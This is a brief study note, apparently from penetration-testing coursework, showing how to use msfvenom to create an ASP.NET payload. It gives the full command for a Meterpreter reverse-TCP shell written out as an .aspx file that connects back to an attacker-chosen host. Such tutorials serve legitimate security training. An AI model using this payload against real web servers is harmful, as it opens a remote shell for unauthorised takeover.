 ```yaml
---
title: 5.1 Generate Metasploit Payload
updated: 2022-08-11T11:22:17.0000000+04:00
created: 2022-08-11T11:15:41.0000000+04:00
---
```


AM
**In this example we are going to create an ASP.NET Payload**

To create a payload you will use the tool:

\> msfvenom

Command used to create an ASP.NET Payload

\> **msfvenom -p windows/meterpreter/reverse_tcp LHOST={your ip address} LPORT=4444 -f aspx \> filename.aspx**

